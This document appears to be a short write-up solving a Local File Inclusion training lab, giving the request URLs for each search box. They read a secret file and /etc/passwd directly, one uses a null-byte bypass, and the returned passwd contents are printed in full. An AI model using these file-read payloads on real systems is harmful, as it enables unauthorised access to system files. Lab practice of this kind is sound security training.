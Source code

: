 #  XSS Rat Lab 
## URL :- `https://hackxpert.com/labs/LFI/`

Solutions -->

![image](https://user-images.githubusercontent.com/60841283/151112457-622654ab-b924-4df9-9623-94a5ef2337ee.png)

### 1st Search Box:

Enter : `test.txt`

Result : `https://hackxpert.com/labs/LFI/endPoint.php?field2_name=test.txt&submit=submit&parent_id=0`

Contents : `testsdsgdgfd`

Visit : `https://hackxpert.com/labs/LFI/endPoint.php?field2_name=secret.txt&submit=submit&parent_id=0`

Contents : `You should not be seeing this!! This is a secret file!! `

Visit : `https://hackxpert.com/labs/LFI/endPoint.php?field2_name=/etc/passwd`

Content :

```html
<div class="comment">
root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/usr/sbin/nologin
man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
mail:x:8:8:mail:/var/mail:/usr/sbin/nologin
news:x:9:9:news:/var/spool/news:/usr/sbin/nologin
uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin
proxy:x:13:13:proxy:/bin:/usr/sbin/nologin
www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin
backup:x:34:34:backup:/var/backups:/usr/sbin/nologin
list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin
irc:x:39:39:ircd:/var/run/ircd:/usr/sbin/nologin
gnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/usr/sbin/nologin
nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin
systemd-network:x:100:102:systemd Network Management,,,:/run/systemd:/usr/sbin/nologin
systemd-resolve:x:101:103:systemd Resolver,,,:/run/systemd:/usr/sbin/nologin
systemd-timesync:x:102:104:systemd Time Synchronization,,,:/run/systemd:/usr/sbin/nologin
messagebus:x:103:106::/nonexistent:/usr/sbin/nologin
syslog:x:104:110::/home/syslog:/usr/sbin/nologin
_apt:x:105:65534::/nonexistent:/usr/sbin/nologin
tss:x:106:111:TPM software stack,,,:/var/lib/tpm:/bin/false
uuidd:x:107:112::/run/uuidd:/usr/sbin/nologin
tcpdump:x:108:113::/nonexistent:/usr/sbin/nologin
usbmux:x:109:46:usbmux daemon,,,:/var/lib/usbmux:/usr/sbin/nologin
sshd:x:110:65534::/run/sshd:/usr/sbin/nologin
landscape:x:111:115::/var/lib/landscape:/usr/sbin/nologin
pollinate:x:112:1::/var/cache/pollinate:/bin/false
systemd-coredump:x:999:999:systemd Core Dumper:/:/usr/sbin/nologin
mysql:x:113:116:MySQL Server,,,:/nonexistent:/bin/false
debian-tor:x:114:118::/var/lib/tor:/bin/false
ftp:x:115:119:ftp daemon,,,:/srv/ftp:/usr/sbin/nologin
Training:x:1000:1000::/var/www/html/Training/:/usr/sbin/nologin
nagios:x:1001:1001::/home/nagios:/bin/sh
toof:x:1002:1003::/home/toof:/bin/bash
openldap:x:116:120:OpenLDAP Server Account,,,:/var/lib/ldap:/bin/false
dnsmasq:x:117:65534:dnsmasq,,,:/var/lib/misc:/usr/sbin/nologin
brandon:x:1003:1004:,,,:/home/brandon:/bin/bash
mayank_pandey01:x:1004:1005::/var/www/html/labs/mayank_pandey01:/usr/sbin/nologin
</div>
```

### 2nd Search box 

Visit : `https://hackxpert.com/labs/LFI/endPoint-2.php?field2_name=/etc/passwd%00&submit=submit&parent_id=0`

Output :
```html
<div class="comment">root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
  --snip--
  --snip--
brandon:x:1003:1004:,,,:/home/brandon:/bin/bash
mayank_pandey01:x:1004:1005::/var/www/html/labs/mayank_pandey01:/usr/sbin/nologin
```
